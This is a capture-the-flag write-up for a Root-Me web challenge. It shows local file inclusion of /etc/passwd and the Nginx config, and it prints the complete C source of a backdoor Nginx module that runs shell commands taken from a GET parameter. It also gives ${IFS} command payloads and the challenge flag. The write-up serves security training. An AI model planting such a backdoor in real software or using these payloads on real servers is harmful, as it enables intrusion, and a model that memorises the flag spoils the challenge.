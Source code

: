 ```yaml
---
title: "[CTF20K Root-Me] - Trainee Trainee"
date: 2025-05-10
author: me
categories: [writeups]
tags: ["Web", "LFI", "RCE"]
---
```


<link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/font-awesome/5.15.2/css/all.min.css">
<link rel="stylesheet" href="/assets/css/lil-bootstrap.css">
<script src="https://code.jquery.com/jquery-3.6.0.min.js"></script>

<br>

*Your trainee made a final commit on the last day of his course, and since then you've seen a huge influx of requests. Strangely, you can no longer connect to the server ... Can you analyse what's going on?*

<br>

_____________________________________________________



<br>

**Table of contents:**

- <a href="#web-app">Web App</a>
- <a href="#lfi">Local File Inclusion</a>
- <a href="#rce">Remote Code Execution</a>
- <a href="#flag">Flag</a>

<br>

_____________________________________________________


<br>

## Web App

The web application consists of a page requesting a file path.

![2](/images/rootme/main_page.png)

## Local File Inclusion

We can check for the presence of a filter by attempting to retrieve the contents of `/etc/passwd`.

![2](/images/rootme/1.png)

Apparently, no filter is applied. The previous request also allows us to determine that the server is an `Nginx version 1.24.0`. The idea would therefore be to try to retrieve the configuration file `/etc/nginx/nginx.conf`.

![2](/images/rootme/2.png)

The configuration file allows us to discover the presence of a secret endpoint and a backdoor on the server.

`/usr/local/src/root-me-backdoor/ngx_http_root_me_backdoor_module.c` :

```c
#include <ngx_config.h>
#include <ngx_core.h>
#include <ngx_http.h>
#include <stdio.h>
#include <stdlib.h>

typedef struct {
    ngx_flag_t backdoor;
} ngx_http_root_me_backdoor_conf_t;

static char *ngx_http_root_me_backdoor(ngx_conf_t *cf, ngx_command_t *cmd, void *conf);
static ngx_int_t ngx_http_root_me_backdoor_handler(ngx_http_request_t *r);
static void *ngx_http_root_me_backdoor_create_conf(ngx_conf_t *cf);
static char *ngx_http_root_me_backdoor_merge_conf(ngx_conf_t *cf, void *parent, void *child);

static ngx_command_t ngx_http_root_me_backdoor_commands[] = {
    { ngx_string("root_me_backdoor"),
      NGX_HTTP_LOC_CONF | NGX_CONF_FLAG,
      ngx_http_root_me_backdoor,
      NGX_HTTP_LOC_CONF_OFFSET,
      offsetof(ngx_http_root_me_backdoor_conf_t, backdoor),
      NULL },
    ngx_null_command
};

static ngx_http_module_t ngx_http_root_me_backdoor_module_ctx = {
    NULL,                                  /* preconfiguration */
    NULL,                                  /* postconfiguration */
    NULL,                                  /* create main configuration */
    NULL,                                  /* init main configuration */
    NULL,                                  /* create server configuration */
    NULL,                                  /* merge server configuration */
    ngx_http_root_me_backdoor_create_conf, /* create location configuration */
    ngx_http_root_me_backdoor_merge_conf   /* merge location configuration */
};

ngx_module_t ngx_http_root_me_backdoor_module = {
    NGX_MODULE_V1,
    &ngx_http_root_me_backdoor_module_ctx, /* module context */
    ngx_http_root_me_backdoor_commands,    /* module directives */
    NGX_HTTP_MODULE,                       /* module type */
    NULL,                                  /* init master */
    NULL,                                  /* init module */
    NULL,                                  /* init process */
    NULL,                                  /* init thread */
    NULL,                                  /* exit thread */
    NULL,                                  /* exit process */
    NULL,                                  /* exit master */
    NGX_MODULE_V1_PADDING
};

static void *ngx_http_root_me_backdoor_create_conf(ngx_conf_t *cf) {
    ngx_http_root_me_backdoor_conf_t *conf;

    conf = ngx_pcalloc(cf->pool, sizeof(ngx_http_root_me_backdoor_conf_t));
    if (conf == NULL) {
        return NGX_CONF_ERROR;
    }

    conf->backdoor = NGX_CONF_UNSET;
    return conf;
}

static char *ngx_http_root_me_backdoor_merge_conf(ngx_conf_t *cf, void *parent, void *child) {
    ngx_http_root_me_backdoor_conf_t *prev = parent;
    ngx_http_root_me_backdoor_conf_t *conf = child;

    ngx_conf_merge_value(conf->backdoor, prev->backdoor, 0);
    return NGX_CONF_OK;
}

static char *ngx_http_root_me_backdoor(ngx_conf_t *cf, ngx_command_t *cmd, void *conf) {
    ngx_http_core_loc_conf_t *clcf;

    clcf = ngx_http_conf_get_module_loc_conf(cf, ngx_http_core_module);
    clcf->handler = ngx_http_root_me_backdoor_handler;

    ngx_conf_set_flag_slot(cf, cmd, conf);
    return NGX_CONF_OK;
}

static ngx_int_t ngx_http_root_me_backdoor_handler(ngx_http_request_t *r) {
    ngx_http_root_me_backdoor_conf_t *conf;
    conf = ngx_http_get_module_loc_conf(r, ngx_http_root_me_backdoor_module);

    if (!conf->backdoor) {
        return NGX_DECLINED;
    }

    if (r->method != NGX_HTTP_GET) {
        return NGX_HTTP_NOT_ALLOWED;
    }

    ngx_str_t param_name = ngx_string("r00t-m3.backd0or");
    ngx_str_t param_value;

    if (ngx_http_arg(r, param_name.data, param_name.len, &param_value) != NGX_OK) {
        return NGX_HTTP_BAD_REQUEST;
    }

    char *command = (char *) ngx_pnalloc(r->pool, param_value.len + 1);
    if (command == NULL) {
        return NGX_HTTP_INTERNAL_SERVER_ERROR;
    }

    ngx_memcpy(command, param_value.data, param_value.len);
    command[param_value.len] = '\0';

    FILE *fp;
    char result[1024];
    fp = popen(command, "r");
    if (fp == NULL) {
        return NGX_HTTP_INTERNAL_SERVER_ERROR;
    }

    ngx_str_t response;
    response.data = (u_char *) ngx_pcalloc(r->pool, sizeof(result));
    if (fgets(result, sizeof(result), fp) != NULL) {
        ngx_memcpy(response.data, result, ngx_strlen(result));
        response.len = ngx_strlen(result);
    } else {
        response.len = 0;
    }
    pclose(fp);

    ngx_buf_t *b;
    ngx_chain_t out;

    r->headers_out.status = NGX_HTTP_OK;
    r->headers_out.content_length_n = response.len;
    r->headers_out.content_type.len = sizeof("text/plain") - 1;
    r->headers_out.content_type.data = (u_char *) "text/plain";

    b = ngx_pcalloc(r->pool, sizeof(ngx_buf_t));
    out.buf = b;
    out.next = NULL;

    b->pos = response.data;
    b->last = response.data + response.len;
    b->memory = 1;
    b->last_buf = 1;

    ngx_http_send_header(r);
    return ngx_http_output_filter(r, &out);
}
```
## Remote Code Execution

Concretely, the backdoor allows us to remotely execute system commands via the GET parameter `r00t-m3.backd0or` from the endpoint `/Th1s_3ndp0int_1s_S3cr3t`.

I first tried the following commands:

```text
ls -la
ls%20-la
```

However, I encountered a timeout. Spaces can cause parsing errors in the `popen()` function. I therefore replaced the spaces with `${IFS}`.

Another issue is that the Nginx module likely limits the size of the HTTP response. Indeed, when I send `ls${IFS}-la`, I only receive the first line of the result:

![2](/images/rootme/3.png)

I finally managed to solve the problem by adding the `sed` command to retrieve the i-th line of the result. I automated this using Burp's Intruder function and noticed a folder containing the flag at the root of the server:

![2](/images/rootme/4.png)

Payload: `ls${IFS}-la${IFS}/${IFS}|${IFS}sed${IFS}-n${IFS}10p`

## Flag

All that remains is to read the file from the main page of the app:

![2](/images/rootme/flag.png)

> 🚩 `RM{My_Tr4inee_B4ckd00r_My_Ng1nx}`

Thanks for reading !